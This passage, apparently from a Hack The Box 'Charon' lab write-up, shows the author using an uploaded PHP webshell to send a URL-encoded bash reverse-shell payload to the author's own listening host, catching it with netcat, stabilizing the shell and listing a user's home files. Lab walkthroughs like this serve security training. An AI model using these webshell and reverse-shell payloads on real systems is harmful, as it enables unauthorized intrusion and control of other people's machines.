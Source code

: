 
![](assets/img/htb/charon/upload_3.png)

and I'm able to execute commands remotely


![](assets/img/htb/charon/command_1.png)

sending a request to the webshell allows me to get a reverse shell

```
http://10.10.10.31/images/shell.php?x=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.13/9001%200%3E%261%22
```

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.31] 50430
bash: cannot set terminal process group (1357): Inappropriate ioctl for device
bash: no job control in this shell
www-data@charon:/var/www/html/freeeze/images$ 
```

To stabilize the shell I do 

- script /dev/null -c bash
- ctrl z
- stty raw -echo ; fg
- reset xterm
- export TERM=xterm
- stty rows 39 columns 155 (change this to your terminal size, check stty size to know your terminal dimensions)

## shell as decoder

the user www-data is able to list and read some files from /home/decoder 

``` shell
www-data@charon:/home/decoder$ ls
decoder.pub  pass.crypt  user.txt
www-data@charon:/home/decoder$ cat decoder.pub 
-----BEGIN PUBLIC KEY-----
MDwwDQYJKoZIhvcNAQEBBQADKwAwKAIhALxHhYGPVMYmx3vzJbPPAEa10NETXrV3
mI9wJizmFJhrAgMBAAE=
-----END PUBLIC KEY-----
www-data@charon:/home/decoder$ ls -l  
total 12
-rw-r--r-- 1 decoder freeeze 138 Jun 23  2017 decoder.pub
-rw-r--r-- 1 decoder freeeze  32 Jun 23  2017 pass.crypt
-r-------- 1 decoder freeeze  33 Aug 21 17:18 user.txt
www-data@charon:/home/decoder$ 
```